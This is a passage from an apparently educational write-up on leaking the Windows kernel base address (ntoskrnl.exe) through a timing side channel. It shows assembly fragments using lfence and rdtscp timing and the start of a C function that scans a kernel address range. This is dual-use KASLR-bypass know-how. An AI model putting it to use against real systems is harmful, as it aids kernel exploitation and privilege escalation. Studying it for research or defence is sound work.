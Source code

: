 
Another **`lfence`**
```asm
	lfence
```

---

We subtract the first **`rdtscp`** result from the second to get the time difference in `rax`, which tells us how long the operation took
```asm
	sub rax, r9
```

---

Finalization routine
```asm
	pop rsi

	ret
sideChannel endp
```

### C code
First, we define the variables, which are the two kernel limits, the jump size, and the range. None of them, except for `Range` are used in the code as I found it more visually intuitive to implement using real values.
```cpp
#define lowKernelBase  0xfffff80000000000
#define highKernelBase 0xfffff80800000000

#define KernelAddrJump 0x100000

#define Range 0x8000
```

#### `getNtBase()` function
This is the function we use to obtain the address of `ntoskrnl.exe`.

We begin by declaring two buffers. `Speed` will hold the timing results of accessing addresses within the range `0xfffff80000000000–0xfffff80800000000`, while `Addrs` will store each and every address within this range.
```cpp
UINT64 getNtBase() {
	static UINT64 Speed[Range] = { 0 };
	static UINT64 Addrs[Range] = { 0 };

	UINT64 Addr = lowKernelBase;
	unsigned int media = 0;
	unsigned int CacheSpeed = 0;
```

---

In this first section, we gather all the information we need and the rest of the code will focus on filtering that data.

